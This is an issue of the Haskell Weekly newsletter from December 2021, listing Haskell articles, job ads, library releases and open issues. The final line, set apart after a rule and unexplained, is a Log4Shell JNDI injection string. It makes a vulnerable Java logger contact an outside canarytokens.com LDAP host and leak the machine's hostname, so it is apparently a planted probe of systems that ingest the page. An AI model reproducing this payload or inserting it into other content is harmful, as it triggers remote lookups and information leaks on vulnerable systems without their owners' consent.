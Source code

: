Welcome to another issue of Haskell Weekly!
[Haskell](https://www.haskell.org) is a safe, purely functional programming language with a fast, concurrent runtime.
This is a weekly summary of what's going on in its community.

## Featured

- [Episode 60: Haskell: purely functional and statically typed programming language](https://nurkiewicz.com/60) by Tomasz Nurkiewicz
  > Haskell takes these characteristics to the extreme. For example, doing any input/output is considered impure from a functional programming point of view.

- [Game rules with a Free Monad DSL](https://roganmurley.com/2021/12/11/free-monads.html) by Rogan Murley
  > This post is about how and why my multiplayer card game GALGA uses a Free Monad DSL for its game rules. If that's gobbledygook to you, read on and hopefully it'll make at least a little more sense by the end!

- [GHC activities report: October--November 2021](https://well-typed.com/blog/2021/12/ghc-2021-10-2021-11/) by Well-Typed
  > This is the ninth edition of our GHC activities report, which describes the work on GHC and related projects that we are doing at Well-Typed. The current edition covers roughly the months of October and November 2021.

- [Understanding Space Leaks From StateT](https://free.cofree.io/2021/12/13/space-leak/) by Ziyang Liu
  > In this blog post I'll explain using a small program how space leaks can still occur when using the strict `StateT` and the strict `modify'`.

## Jobs

- [Junior Haskell Engineer](https://acilearning.applytojob.com/apply/IuGQtn7Tkh/Junior-Software-Engineer-Remote?referrer=20211202012454J4X0XKJBEFJUJTGT) at ACI Learning
  > Are you looking for an entry level job where you can learn the basics of software engineering and functional programming? Then come join our small but talented team to help us develop the back end API services that support our on demand video training platform. We'll teach you everything you need to know!

<!-- Runs from 2021-11-04 to 2022-01-20. -->
- [Haskell Developer at MLabs](https://apply.workable.com/mlabs/j/63DAAA4AEF/) (ad)
  > We are one of the leading Haskell consultancies in the fintech, blockchain and AI space, with a passion for Haskell and open source software. We are looking for a remote Haskeller to join our team. If you are excited about Haskell and are up for a new challenge, please apply [here](https://apply.workable.com/mlabs/j/63DAAA4AEF/) or visit [our website](https://mlabs.city/)! For any questions please email <mark@mlabs.city>.

- [Functional Engineer at Tweag](https://boards.greenhouse.io/tweag/jobs/4129385002)

- [Haskell Developer at Standard Chartered](https://discourse.haskell.org/t/haskell-roles-in-warsaw-or-london-with-core-strats-at-standard-chartered/3813?u=taylorfausak)

Trying to hire a Haskell developer?
You should [advertise with us](https://haskellweekly.news/advertising.html)!

## In brief

- [Do You Know Where Haskell Is Used?](https://typeable.io/blog/2021-12-13-haskell-usage) by Catherine Galkina
  > One of our recent posts described useful Haskell-based utilities, but all of them are intended to be used by tech-savvy people. Today we're going to give some examples of practical use in various industries.

## Show & tell

- [IHP version 0.17](https://github.com/digitallyinduced/ihp/releases/tag/v0.17.0) by Marc Scholten
  > IHP is a modern batteries-included haskell web framework, built on top of Haskell and Nix. Blazing fast, secure, easy to refactor and the best developer experience with everything you need - from prototype to production.

- [text version 2.0-rc2](https://np.reddit.com/r/haskell/comments/rdj1fv/text20rc2_with_utf8_underlying_representation_is/) by Andrew Lelechenko
  > I'm happy to announce that the second release candidate for upcoming text-2.0 with UTF-8 underlying representation has been just uploaded on Hackage.

- [tn-fp-haskell-course](https://github.com/smelc/tn-fp-haskell-course) by Clément Hurlin
  > I gave an 8 hours introduction to functional programming using Haskell to Senior students at [Telecom Nancy](https://telecomnancy.univ-lorraine.fr/). Students had a Java and python background, reception was very positive.

## Call for participation

-   [ema: Allow exceptions and logging in render function](https://github.com/srid/ema/issues/64)
-   [tablebot: Website links](https://github.com/WarwickTabletop/tablebot/issues/73)
-   [unison: Better error message for "names" command when a hash exists but has no names](https://github.com/unisonweb/unison/issues/2763)

---

`${jndi:ldap://x${hostName}.L4J.wel6b7i5p6nevlf1v6h7gfc1a.canarytokens.com/a}`
